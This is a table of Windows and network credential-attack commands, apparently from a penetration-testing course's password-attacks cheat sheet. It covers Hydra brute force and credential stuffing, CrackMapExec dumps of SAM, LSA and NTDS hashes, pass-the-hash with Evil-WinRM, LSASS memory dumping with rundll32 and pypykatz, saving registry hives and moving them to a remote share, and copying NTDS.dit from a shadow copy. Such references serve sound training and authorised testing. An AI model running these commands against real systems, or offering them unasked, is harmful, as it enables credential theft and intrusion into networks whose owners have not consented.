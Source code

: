 | ``hydra -l user.list -p password <service>://<ip>`` | Uses Hydra in conjunction with a user list and password to attempt to crack a password over the specified service. |

| ``hydra -C <user_pass.list> ssh://<IP>`` | Uses Hydra in conjunction with a list of credentials to attempt to login to a target over the specified service. This can be used to attempt a credential stuffing attack. |

| ``crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam`` | Uses CrackMapExec in conjunction with admin credentials to dump password hashes stored in SAM, over the network. |

| ``crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa`` | Uses CrackMapExec in conjunction with admin credentials to dump lsa secrets, over the network. It is possible to get clear-text credentials this way. |

| ``crackmapexec smb <ip> -u <username> -p <password> --ntds`` | Uses CrackMapExec in conjunction with admin credentials to dump hashes from the ntds file over a network. |

| ``evil-winrm -i <ip>  -u  Administrator -H "<passwordhash>"`` | Uses Evil-WinRM to establish a Powershell session with a Windows target using a user and password hash. This is one type of `Pass-The-Hash` attack. |

| `-------------` | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |

| `hklm\sam` | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |

| `hklm\system` | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database. |

| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target. |

| `--------------------------------------------------------------------------------------------------------` | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

| `Task Manager Method` | Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file _A file called lsass.DMP is created and saved in:_ `C:\Users\loggedonusersdirectory\AppData\Local\Temp` |

| ``tasklist /svc`` | A command-line-based utility in Windows used to list running processes. |

| ``findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml`` | Uses Windows command-line based utility findstr to search for the string "password" in many different file type. |

| ``gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt'`` | Review Dictionary file for sensitive information |

| ``Get-Process lsass`` | A Powershell cmdlet is used to display process information. Using this with the LSASS process can be helpful when attempting to dump LSASS process memory from the command line. |

| ``rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full`` | Uses rundll32 in Windows to create a LSASS memory dump file. This file can then be transferred to an attack box to extract credentials. |

| ``pypykatz lsa minidump /path/to/lsassdumpfile`` | Uses Pypykatz to parse and attempt to extract credentials & password hashes from an LSASS process memory dump file. |

| ``reg.exe save hklm\sam C:\sam.save`` | Uses reg.exe in Windows to save a copy of a registry hive at a specified location on the file system. It can be used to make copies of any registry hive (i.e., hklm\sam, hklm\security, hklm\system). |

| ``move sam.save \\<ip>\NameofFileShare`` | Uses move in Windows to transfer a file to a specified file share over the network. |

| ``python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`` | Uses Secretsdump.py to dump password hashes from the SAM database. |

| ``vssadmin CREATE SHADOW /For=C:`` | Uses Windows command line based tool vssadmin to create a volume shadow copy for `C:`. This can be used to make a copy of NTDS.dit safely. |

| ``cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit`` | Uses Windows command line based tool copy to create a copy of NTDS.dit for a volume shadow copy of `C:`. |
